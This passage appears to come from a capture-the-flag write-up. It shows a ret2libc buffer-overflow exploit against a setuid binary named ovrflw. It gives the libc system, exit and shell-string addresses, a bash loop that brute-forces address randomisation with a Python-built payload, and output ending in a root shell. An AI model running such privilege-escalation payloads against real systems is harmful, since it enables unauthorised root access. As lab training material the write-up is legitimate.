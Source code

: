 ```
system 0xb75f1310
exit 0xb75e4260
shell 0xb7713bac
```

Writing the exploit code:

```
while true; do /usr/local/bin/ovrflw $(python -c 'print "A"*112+"\x10\x13\x5f\xb7\x60\x42\x5e\xb7\xac\x3b\x71\xb7"'); done
```

We execute this code on the box:

```
$ while true; do /usr/local/bin/ovrflw $(python -c 'print "A"*112+"\x10\x13\x5f\xb7\x60\x42\x5e\xb7\xac\x3b\x71\xb7"'); done
while true; do /usr/local/bin/ovrflw $(python -c 'print "A"*112+"\x10\x13\x5f\xb7\x60\x42\x5e\xb7\xac\x3b\x71\xb7"'); done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Floating point exception (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Trace/breakpoint trap (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Syntax: Z
         $$D$
              <input string>
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Illegal instruction (core dumped)
Segmentation fault (core dumped)
# id 
id 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root
# ls -l /root
ls -l /root
total 4
-r-------- 1 root root 33 Apr 21  2017 root.txt
```